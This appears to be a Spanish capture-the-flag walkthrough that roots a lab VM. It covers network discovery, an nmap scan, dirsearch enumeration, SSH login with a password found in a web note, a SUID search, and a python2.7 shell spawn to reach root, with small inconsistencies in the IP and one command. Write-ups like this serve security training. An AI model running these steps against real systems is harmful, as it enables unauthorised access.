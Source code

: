 Primero Obtenemos la IP de nuestra maquina atacante:
```
ifconfig
```

Utilizando " netdiscover " procedemos a encontrar los equipos conectados en la red:
```
sudo netdiscover -r 192.168.1.0/24
```

Una ves encontrada la IP de la maquina victima comenzamos a realizar un escaneo de puertos, utilizaremos " nmap ":
```
sudo nmap -sV -A -T5 192.168.1.30
```
![[nmap.png]]

Encontramos que tenemos los puertos:
- 22 corriendo un servicio " ssh "
- 80 corriendo un servicio " web - apache "
Revisamos en el navegador con la IP de la maquina victima para ver si tiene desplegado un sitio web.
![[paguina_web.png]]

Revisamos el código de la paguina web:
![[codigo_web.png]]

Procedemos a realizar una enumeración de directorios con la IP de la victima utilizando la herramienta " dirsearch ".
```
dirsearch -u http://192.168.1.12/
```
![[dirsearch.png]]

vemos una repuesta " /admin/ " al cual entramos para revisar y encontramos una nota, donde el usuario mensiona de una contraseña " 12345ted123 " y podemos decir que " ted " puede ser nombre de usuario.
![[nota.png]]

Con esta información intentaremos conectarnos por " ssh "
- contraseña: 12345ted123
```
ssh ted@192.168.1.12
```
![[ssh.png]]

Buscamos los archivos que tiene permisos el usuario ted para ver si podemos encontrar un forma de poder aprovechar la escalabilidad de privilegios " SUID Binaries ". 
```
find / -perm -u=s -type f 2>/dev/nul
```
l![[files.png]]

Podemos usar " python2.7 " para abrir una shell interactiva y elevar privilegios con un pequeño programa. 
```
python2.7 -c 'import pty;pty.spawn("/bin/sh")'
```
![[root.png]]

Una ves siendo root buscaremos la flag /root/flag.txt:
- Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
![[flag.png]]






















